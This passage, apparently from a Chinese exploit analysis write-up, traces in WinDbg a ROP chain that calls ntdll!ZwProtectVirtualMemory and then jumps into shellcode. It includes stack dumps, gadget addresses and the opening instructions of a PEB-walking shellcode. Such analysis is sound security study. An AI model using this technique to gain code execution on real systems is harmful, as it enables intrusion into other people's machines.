 	WARNING: Stack pointer is outside the normal stack bounds. Stack unwinding can be inaccurate.

可以看到当前的栈空间就是已经布置好了的rop链，当前的位置为pop
edi，而当前栈顶0x776a5f18为ntdll!ZwProtectVirtualMemory函数的位置，rop链主要的目的就是把ntdll!ZwProtectVirtualMemory参数布置好，然后跳到ntdll!ZwProtectVirtualMemory执行，之后跟着shellcode执行就可以了。

	0:005> dd esp

	05ac92a8 776a5f18 777271ef 048563b4 7772b72a

	05ac92b8 ffffffff 776948b9 04801268 776fa30c

	05ac92c8 fa3dfa7f 7769ab39 77696d70 7772d241

	05ac92d8 0480125c 776827c4 048563b4 00010400

	05ac92e8 048563b4 00000000 7dafed29 880097d8

	05ac92f8 6d7f5504 05a7f958 00000001 00000000

	05ac9308 7dafed16 8800ed54 6d7f5504 05a7fa38

	05ac9318 00000001 00000000 7dafed13 88000000

	ntdll!ZwProtectVirtualMemory:

	776a5f18 b8d7000000 mov eax,0D7h

	776a5f1d ba0003fe7f mov edx,offset SharedUserData!SystemCallStub (7ffe0300)

	776a5f22 ff12 call dword ptr [edx]

	776a5f24 c21400 ret 14h

往下走，ret跳到另一个片段

	ntdll!strstr+0x85:

	776a7644 c3 ret

	WARNING: Stack pointer is outside the normal stack bounds. Stack unwinding can
	be inaccurate.

	0:005> dd esp

	05ac92ac 777271ef 048563b4 7772b72a ffffffff

	777271ef 5e pop esi

	777271f0 c3 ret

接下来把0x48563b4给了esi，通过前面关于ntdll!ZwProtectVirtualMemory函数参数的解释，我们可以看出esi是返回地址，跟进去看一下，这个代码是不是很熟悉，没错，这就是shellcode。

	048563b4 33c9 xor ecx,ecx

	048563b6 648b4130 mov eax,dword ptr fs:[ecx+30h]

	048563ba 8b580c mov ebx,dword ptr [eax+0Ch]

	048563bd 8b7314 mov esi,dword ptr [ebx+14h]

	048563c0 ad lods dword ptr [esi]

	048563c1 96 xchg eax,esi

